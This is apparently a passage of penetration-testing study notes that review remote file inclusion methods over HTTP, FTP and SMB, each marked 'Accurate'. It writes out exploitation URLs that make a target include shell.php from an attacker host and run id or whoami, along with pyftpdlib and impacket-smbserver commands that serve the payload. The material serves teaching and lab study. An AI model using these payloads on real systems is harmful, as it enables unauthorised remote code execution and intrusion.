 - Exploitation URL:
    
    - http://<TARGET_IP>/index.php?language=http://<ATTACKER_IP>:8081/shell.php&cmd=id
        
    - Check: Valid for RFI if the target allows remote file inclusion (e.g., allow_url_include=On in PHP). The cmd=id executes the id command via the shell.
        
- Status: Accurate. Classic RFI example.
    

2. FTP (21)

- Description: Loads a malicious file via FTP.
    
    - Check: Accurate. FTP can be used in RFI attacks if the target supports ftp:// URLs.
        
- Example Exploit Command:
    
    - sudo python -m pyftpdlib -p 21
        
    - Check: Correct. pyftpdlib is a Python FTP server; -p 21 sets it to listen on port 21. Assumes shell.php is in the current directory.
        
- Exploitation URL:
    
    - http://<TARGET_IP>/index.php?language=ftp://<ATTACKER_IP>/shell.php&cmd=id
        
    - Check: Valid for RFI with FTP support in PHP (ftp:// wrapper enabled). Executes the shell if included.
        
- Status: Accurate. Feasible with RFI vulnerability.
    

3. SMB (445)

- Description: Exploits file inclusion via SMB share.
    
    - Check: Accurate. SMB can be abused for LFI/RFI if the target supports UNC paths (e.g., Windows environments).
        
- Example Exploit Command:
    
    - impacket-smbserver -smb2support share $(pwd)
        
    - Check: Correct. impacket-smbserver sets up an SMB share; -smb2support ensures modern compatibility. Shares the current directory ($(pwd)).
        
- Exploitation URL:
    
    - http://<TARGET_IP>/index.php?language=\\<ATTACKER_IP>\share\shell.php&cmd=whoami
        
    - Check: Valid for Windows targets with SMB inclusion enabled (e.g., file:// or UNC paths). Executes whoami if the shell is included.
        
- Status: Accurate. Works in specific contexts (Windows, permissive configs).
    

4. TFTP (69)

- Description: Transfers a malicious script via TFTP.
    
    - Check: Accurate but niche. TFTP is lightweight and UDP-based, used for file transfers in RFI scenarios.
        
- Example Exploit Command:
    